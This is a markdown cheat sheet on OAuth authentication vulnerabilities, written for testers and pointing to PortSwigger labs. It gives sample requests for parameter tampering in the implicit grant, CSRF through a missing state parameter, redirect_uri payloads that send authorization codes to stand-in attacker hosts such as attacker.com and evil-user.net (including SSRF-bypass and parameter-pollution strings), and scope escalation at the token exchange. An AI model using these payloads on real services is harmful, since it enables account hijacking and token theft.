 # OAuth Authentication Vulnerabilities

## **Table of Contents**
1. [Improper Implementation of the Implicit Grant Type](#improper-implementation-of-the-implicit-grant-type)
2. [Exploiting Absense of State Parameter](#Exploiting-Absense-of-State-Parameter)
3. [OAuth Account Hijacking With SSRF and Parameter via `redirect_uri`](#oauth-account-hijacking-with-ssrf-and-parameter-pollution-via-redirect_uri)
4. [Stealing OAuth Access Tokens via an Open Redirect](#stealing-oauth-access-tokens-via-an-open-redirect)
5. [Stealing OAuth Access Tokens via a Proxy Page](#stealing-oauth-access-tokens-via-a-proxy-page)
6. [Exploiting `response_mode`](#exploiting-response_mode)
7. [Exploiting flawed scope validation in authorization code grant type in Oauth service provider server](#Exploiting-flawed-scope-validation-in-authorization-code-grant-type-in-Oauth-service-provider-server)
8. [Unverified User Registration](#unverified-user-registration)
9. [Unprotected Dynamic Client Registration via OpenID Connect](#unprotected-dynamic-client-registration-via-openid-connect)
10. [Allowing authorization requests by reference](#Allowing-authorization-requests-by-reference)

---
**Note:**

  1. In `Implicit grant type` browser always recieves a `token`.<br>
  2. In `authorization code grant type` browser recieves a `code`.<br>
  3. Always check `response_type` header to identify the grant type.
---

### Improper implementation of the implicit grant type
In the implicit flow, this POST request is exposed to attackers via their browser. As a result, this behavior can lead to a serious vulnerability if the client application doesn't properly check that the access token matches the other data in the request. In this case, an attacker can simply `change the parameters` sent to the server to impersonate any user. **For example:** When a token is sent to attacker browser, an attacker might change the `username`,`email` or other details targeting another user.<br>

**Initial Request:**
```http
{"email":"victim@victim.com","username":"victim","token":"z7O3nwAGgRrarVPHp3vULtgTqPkP0jlZPTtNRZ9T-Ho"}
```
**Tempered Request:**
```http
{"email":"attacker@attacker.com","username":"attacker","token":"z7O3nwAGgRrarVPHp3vULtgTqPkP0jlZPTtNRZ9T-Ho"}
```
---

### Exploiting Absense of State Parameter

In Oauth mechanism, `state` parameter in authorization request work as a CSRF token. Absense of this parameter can be exploitable to CSRF attack. Applications use oauth mechanism for connecting other applications `(gmail, facebook, applie id)` to the client account. In this case, we can use this flaw to connect our own application `(gmail, facebook, applie id)` to the victim account by crafting an url. <br>

**Here is an example of authorization request without `state` parameter**
<br>
```
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=code&scope=openid%20profile HTTP/1.1
Host: oauth-authorization-server.com
```
**Now we can send the request with `code` to a victim.**
```
GET /oauth-login?code=epAPZZJJLQCCYm6sI7NSKgiq37kkBndfvXxsw1wfukJ
Host: client-app.net
```

---

### OAuth Account Hijacking With SSRF and Parameter Pollution via `redirect_uri`

Depending on the grant type, the `redirect_uri` parameter is used to send the authorization code to the specified domain in the `redirect_uri`. If an OAuth mechanism allows arbitrary domains to be specified in the `redirect_uri`, an attacker could exploit this flow to hijack the authorization code.

For example:  
```
redirect_uri=https://client-app.net
```
The code is sent to `client-app.net`.  
```
redirect_uri=https://attacker.com
```
The code is sent to `attacker.com`.<br>
<br>
**Note: If this process not work, try with `ssrf defense bypass` technique and `parameter pollution`.** <br>
<br>
**SSRF** : `redirect_uri=https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`<br>
**Parameter Pollution** : `client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`
<br>
<br>Check this for more details >> [Flawed redirect_uri validation](https://portswigger.net/web-security/oauth#leaking-authorization-codes-and-access-tokens)

---

### Stealing OAuth access tokens via an open redirect

If `redirect_uri` is not accepting arbitrary domain, we may be able to use directory traversal tricks to supply any arbitrary path on the domain. Something like this:
```
redirect_uri=https://client-app.com/oauth/callback/../
```
Or,
```
redirect_uri=https://client-app.com/oauth/callback/../../example/path
```
This will be interpreted on the back-end as:
```
https://client-app.com/example/path
```
At this point, if we find any `open redirect` vulnerability on `/example/path`, we can chain this issue to sent request to an attacker-controlled domain where we can host any malicious script and steal the `code`.

Check this for more details : [Portswigger Lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

---

### Stealing OAuth access tokens via a proxy page

More deatils: [Portswigger Lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

---

### Exploiting response_mode

In some cases, changing `response_mode` can let you to bypass `redirect_uri` validation. You can change the value with `query`, `fragment`, `web_message`. Also if you notice that the `web_message` response mode is already in the request, this often allows a wider range of subdomains in the `redirect_uri`.
<br>
```
https://auth.example.com/authorize?
client_id=12345
&redirect_uri=https://client-app.net
&response_type=code
&response_mode=web_message
```

---

### Exploiting flawed scope validation in authorization code grant type in Oauth service provider server

**Note: For this we need our own malicious application**

In some scenario we can leak user information from `Oauth authorization server` by exploiting a misconfigured `scope` parameter during server-to-server token exchange.<br>
<br>
**Initial Authorization Request**
```
GET /authorize?client_id=12345
&redirect_uri=https://attacker.com/callback
&response_type=code
&scope=openid email
&state=xyz123
HTTP/1.1
Host: oauth-authorization-server.com
```
Now, the attacker exchanges the authorization code for an access token but modifies the `scope` parameter to include `profile`.<br>
<br>
**Authorization Code Exchange**
```
POST /token HTTP/1.1
Host: oauth-authorization-server.com
Content-Type: application/x-www-form-urlencoded

client_id=12345
&client_secret=SECRET
&redirect_uri=https://attacker.com/callback
&grant_type=authorization_code
&code=abc123xyz
&scope=openid email profile
```
In vulnerable case, the server does not reject the request and issues an access token with elevated privileges. Now the attacker has an access token with unauthorized profile access and can retrieve sensitive user data via API calls.<br>
<br>
**API call**
```
GET /userinfo HTTP/1.1
Host: api.oauth-authorization-server.com
Authorization: Bearer z0y9x8w7v6u5
```
***Note: `z0y9x8w7v6u5` is the access token.*** <br>
<br>We can do this in implicit grant type also by stealing the access token.<br>
<br>
More details: [Portswigger](https://portswigger.net/web-security/oauth#flawed-scope-validation)

---

### Unverified user registration

Some websites that provide an OAuth service allow users to register an account without verifying all of their details, including their email address in some cases `(In this case email verification with OTP don't work)`. An attacker can exploit this by registering an account with the OAuth provider using the same details as a target user, such as a known email address. Client applications may then allow the attacker to sign in as the victim via this fraudulent account with the OAuth provider.

---

### Unprotected dynamic client registration via OpenID Connect

For more details: [Portswigger](https://portswigger.net/web-security/oauth/openid#unprotected-dynamic-client-registration)

---

### Allowing authorization requests by reference

For more deatils: [Portswigger](https://portswigger.net/web-security/oauth/openid#allowing-authorization-requests-by-reference)

---
